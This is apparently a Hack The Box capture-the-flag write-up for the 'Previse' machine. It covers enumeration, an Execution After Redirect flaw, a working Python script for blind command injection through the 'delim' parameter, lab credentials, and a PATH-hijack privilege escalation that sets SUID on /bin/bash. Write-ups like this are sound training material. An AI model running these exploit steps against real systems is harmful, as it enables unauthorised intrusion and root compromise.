








<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.104 previse.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found bunch of php file from gobuster scan
```bash
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/login.php            (Status: 200) [Size: 2224]                              
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/config.php           (Status: 200) [Size: 0]                                 
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/status.php           (Status: 302) [Size: 2968] [--> login.php]
```

bunch of php files and most of them are redirecting to `login.php` but all redirect sizes are different. If we intercept these redirect requests we can see these file content. ***New Thing:** This is a EAR(Execution After Redirect) vulnerability **(owasp docs)[https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR)]***

And there's also a zip file.



We can create new account from `/accounts.php` with POST request.



And now we can download that `siteBackup.zip`.

Zip file contains source code of the web application.

# Foothold

## Blind Command Injection

* From `config.php` got mysql creds `root:mySQL_p@ssw0rd!:)`.
* `logs.php` has a command injection bug in line 19-20

  

  User input from `/logs.php` POST request parameter `delim` directly placced in the `exec()`.

`/logs.php` file executing python script and takes input from `delim` parameter, and it is vulnerable form blind command injection.



**Exploit Script**
```py
import sys
import requests as r

url = 'http://10.10.11.104'

try:
    def signup():
        location = f'{url}/accounts.php'
        data = {'username': 'poorduck', 'password': 'p00rduck', 'confirm': 'p00rduck'}
        create_ac = r.post(location, data=data, allow_redirects=False)
        if 'Success! User was added!' in create_ac.text:
            return '[+] Account is created'
        elif 'Username is already taken!' in create_ac.text:
            return '[+] User already exits'
        else:
            return create_ac.text


    print(signup())
    s = r.session()
    data = {'username': 'poorduck', 'password': 'p00rduck'}
    s.post(f'{url}/login.php', data=data)


    def exec_cmd(cmd):
        location = f'{url}/logs.php'
        data = {'delim': f'`{cmd}`'}
        execute = s.post(location, data=data, timeout=10)
        if 'time,user,fileID' in execute.text:
            return '[+] Command Executed. This is a blind command injection!'
        else:
            return execute.text


    print(exec_cmd(sys.argv[1]))
    s.close()
except r.exceptions.Timeout:
    print('\n[-] Response timeout!')
except KeyboardInterrupt:
    print('\n[-] Exiting execution!')
```

# Privesc

## Absolute Path Injection

Logged in to sql server with found creds and got user `m4lwhere` password hash, cracked with john and su to user `m4lwhere` with that password.


<!--m4lwhere:ilovecody112235!-->

User `m4lwhere` can run a python script with sudo as root.
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Script is using `date` and `gzip` command without specifying full path and there is no secure path set in sudo.



Using path injection to exploit that script
```
echo 'chmod +s /bin/bash' > /tmp/date && chmod +x /tmp/date
export PATH=/tmp:$PATH
sudo -u root /opt/scripts/access_backup.sh
```

